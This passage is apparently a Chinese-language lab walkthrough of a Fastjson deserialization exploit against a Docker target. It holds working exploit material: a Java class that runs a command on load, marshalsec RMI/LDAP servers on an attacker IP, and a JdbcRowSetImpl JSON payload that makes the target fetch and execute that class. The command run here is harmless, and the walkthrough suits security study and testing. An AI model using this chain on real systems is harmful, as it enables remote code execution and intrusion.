 编辑恶意类代码，起名为evilclass.java

    
    
    import java.lang.Runtime;import java.lang.Process;public class evilclass{static {try {Runtime rt = Runtime.getRuntime();String[] commands = {"touch", "/tmp/test"};Process pc = rt.exec(commands);pc.waitFor();} catch (Exception e) {// do nothing}}}

使用javac编译evilclass.java文件生成evilclass.class

![]()

这里需要搭建RMI服务，首先下载marshalsec

    
    
    git clone https://github.com/mbechler/marshalsec.git

安装maven并编译marshalsec生成jar

    
    
    apt-get install mavenmvn clean package -DskipTests

![](https://gitee.com/fuli009/images/raw/master/public/20210822095644.png)

稍微等一下，可以看到已经创建成功

![](https://gitee.com/fuli009/images/raw/master/public/20210822095645.png)

我们进入到marshalsec的target目录里面进行查看已经生成了marshalsec-0.0.3.3-SNAPSHOT-
all.jar，然后使用marshalsec搭建一个RMI服务器，这里的ip就是你攻击机的ip，端口可以随意

这里也可以使用启动LDAP服务，效果是一样的

    
    
    lsjava -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.1.8/#evilclass" 9999java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.8/#evilclass" 9999

这里我使用RMI，可以看到请求成功

![](https://gitee.com/fuli009/images/raw/master/public/20210822095646.png)

bp在靶机的fastjson页面抓包

![](https://gitee.com/fuli009/images/raw/master/public/20210822095647.png)

这里需要改的有三个地方，第一个地方需要把GET方法改成POST方法，第二个地方需要添加Content-
Type:application/json，第三个地方就是写入漏洞利用的poc

    
    
    {"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.1.8:9999/evilclass","autoCommit":true}}

发包即可

![](https://gitee.com/fuli009/images/raw/master/public/20210822095648.png)

进入docker里查看发现已经创建了test文件
